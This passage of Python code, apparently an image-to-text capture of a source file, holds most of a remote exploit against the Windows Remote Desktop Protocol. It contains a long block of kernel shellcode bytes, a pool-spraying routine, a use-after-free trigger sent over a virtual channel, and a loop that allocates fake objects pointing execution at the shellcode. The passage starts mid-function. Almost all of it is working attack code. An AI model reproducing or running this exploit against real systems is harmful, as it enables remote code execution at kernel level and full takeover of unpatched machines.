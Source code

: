 ```Python
    shellcode += b"\x50\xe8\x00\x00\x00\x00\x81\x04\x24\x92\x00\x00"
    shellcode += b"\x00\x50\x53\x29\x3c\x24\x56\xb8\xc4\x5c\x19\x6d"
    shellcode += b"\xe8\x25\x00\x00\x00\x31\xc0\x50\x50\x50\x56\xb8"
    shellcode += b"\x34\x46\xcc\xaf\xe8\x15\x00\x00\x00\x85\xc0\x74"
    shellcode += b"\xaa\x8b\x45\x1c\x80\x78\x0e\x01\x74\x07\x89\x00"
    shellcode += b"\x89\x40\x04\xeb\x9a\xc3\xe8\x02\x00\x00\x00\xff"
    shellcode += b"\xe0\x60\x8b\x6d\x04\x97\x8b\x45\x3c\x8b\x54\x05"
    shellcode += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\x49"
    shellcode += b"\x8b\x34\x8b\x01\xee\xe8\x1d\x00\x00\x00\x39\xf8"
    shellcode += b"\x75\xf1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
    shellcode += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24"
    shellcode += b"\x1c\x61\xc3\x52\x31\xc0\x99\xac\xc1\xca\x0d\x01"
    shellcode += b"\xc2\x85\xc0\x75\xf6\x92\x5a\xc3\x58\x89\x44\x24"
    shellcode += b"\x10\x58\x59\x58\x5a\x60\x52\x51\x8b\x28\x31\xc0"
    shellcode += b"\x64\xa2\x24\x00\x00\x00\x99\xb0\x40\x50\xc1\xe0"
    shellcode += b"\x06\x50\x54\x52\x89\x11\x51\x4a\x52\xb8\xea\x99"
    shellcode += b"\x6e\x57\xe8\x7b\xff\xff\xff\x85\xc0\x75\x4f\x58"
    shellcode += b"\x8b\x38\xe8\x00\x00\x00\x00\x5e\x83\xc6\x55\xb9"
    shellcode += b"\x00\x04\x00\x00\xf3\xa4\x8b\x45\x0c\x50\xb8\x48"
    shellcode += b"\xb8\x18\xb8\xe8\x56\xff\xff\xff\x8b\x40\x0c\x8b"
    shellcode += b"\x40\x14\x8b\x00\x66\x83\x78\x24\x18\x75\xf7\x8b"
    shellcode += b"\x50\x28\x81\x7a\x0c\x33\x00\x32\x00\x75\xeb\x8b"
    shellcode += b"\x58\x10\x89\x5d\x04\xb8\x5e\x51\x5e\x83\xe8\x32"
    shellcode += b"\xff\xff\xff\x59\x89\x01\x31\xc0\x88\x45\x08\x40"
    shellcode += b"\x64\xa2\x24\x00\x00\x00\x61\xc3\x5a\x58\x58\x59"
    shellcode += b"\x51\x51\x51\xe8\x00\x00\x00\x00\x83\x04\x24\x09"
    shellcode += b"\x51\x51\x52\xff\xe0\x31\xc0"

    shellcode += buf

    print('shellcode len: %d' % len(shellcode))

    payload_size = 1600
    payload = b'\x2c\xf0\x4f\x87' + shellcode
    payload = payload + b'\x5a' * (payload_size - len(payload))


    print('[+] spraying pool')
    pool_spray(s, crypter, payload)

    fake_obj_size = 168
    call_offset = 108
    fake_obj = b'\x00'*call_offset + shellcode_address
    fake_obj =  fake_obj + b'\x00' * (fake_obj_size - len(fake_obj)) 

    time.sleep(.5)
    print('[+] sending free')
    s.sendall(rdp.free_32(crypter))
    time.sleep(.15)

    print('[+] allocating fake objects')
    while count < times:
        
        count += 1 
        #print('time through %d' % count)

        try: 

            s.sendall(rdp.write_virtual_channel(crypter, 7, 1005, fake_obj))

        except ConnectionResetError:

            s.close()
```